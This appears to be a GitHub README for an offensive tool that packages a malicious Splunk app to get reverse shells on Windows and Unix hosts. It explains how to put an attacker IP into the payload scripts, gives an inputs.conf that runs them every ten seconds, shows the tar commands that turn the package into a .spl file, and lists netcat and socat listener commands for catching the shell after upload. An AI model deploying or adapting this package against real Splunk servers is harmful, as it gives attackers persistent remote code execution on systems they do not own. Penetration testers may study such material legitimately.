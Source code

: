 # reverse_shell_splunk
A simple splunk package for obtaining reverse shells on both Windows and most *nix systems.

# requirements
* splunk administrative access
* a netcat / socat listener on the attacking machine


# how to use


* Depending on the target machine, you will either need to edit the rev.py for unix type machines or run.ps1 for Windows machines. Enter your attacking machine IP and ports.
* Your files and directory structure should look like this.


```
reverse_shell_splunk
├── bin
│   ├── rev.py
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf

```

* inputs.conf in this instance is the configuration file that tells splunk to launch the run.bat file and at what interval. In the example below "run.bat" will be run every 10 seconds. Because splunk only runs .bat files, the call inside "run.bat" is to a file with its same name. When run.bat is called, run.ps1 being in the same directory and having the same name will be run.


```
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = pentest

[script://.\bin\run.bat]
disabled = 0
sourcetype = pentest
interval = 10

```
* Once you have finished editing the files you will need to tar up the directory and its contents. Make sure to keep the directory and file structure in the example above. Lastly rename the .tgz file to .spl

```

tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl

```

* Launch your listener and upload this package via the app installation page.

```
Listener options
nc -nlvp "port"
or
socat `tty`,raw,echo=0 tcp-listen:"port"
```

Note: I have had to restart the splunk service on unix type machines in my testing for this to work. No restarts are needed on windows machine.
